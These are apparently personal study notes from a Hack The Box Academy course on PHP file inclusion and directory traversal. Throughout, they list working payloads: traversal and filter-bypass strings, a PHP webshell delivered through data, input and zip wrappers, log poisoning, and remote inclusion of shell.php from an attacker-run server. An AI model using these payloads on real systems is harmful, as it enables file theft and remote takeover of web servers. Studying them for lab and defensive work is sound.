 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# FILE INCLUSION / DIRECTORY TRAVERSAL
Creared by Christopher Fitzsimons  

Usefull link:  
https://academy.hackthebox.com/course/preview/file-inclusion--directory-traversal/local-file-inclusion  

## TLDR
Local File Inclusion and Path Traversal uses a bunch on vulnerbilities in PHP configuration. If PHP isnt securly configured or if the code is written poorly, attackers can use thoes gaps to get file contents on the server and inject their own malicious commands to gain remote access to the server.  
The below will show commands and queries I can use to try and get insignt into what is on the machine, what I can access and what I can inject.  

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"  
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  
....// = %2e%2e%2e%2e%2f%2f  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

Base encoded PHP webshell  
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  
"index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"  

The output of the command id can be seen in the image above. Some other files that can be included based on the scenario are /var/log/nginx/access.log, /var/log/apache2/access.log, /var/log/sshd.log, /var/log/mail, and /var/log/vsftpd.log.  

## Notes
### Local File Inclusion
What is Local File Inclusion:  
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.  

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.  

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"  

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"  

Scripts can employ search and replace techniques to avoid path traversals. For example:  
$language = str_replace('../', '', $_GET['language']);  
This will attempt to replace the traversal attack.  
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../  
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.  
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.  

### LFI to Remote Code Execution  
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.  

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.  

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.  
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"  

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.  

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.  
For example we run the request "index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.  
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.  
Example "index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.  

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.  
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.  
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.  

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.  
Example: "index.php?language=http://localhost:8080/file"  

Next, use the ftp:// scheme to access shell.php present in the FTP root.  
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"  
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.  
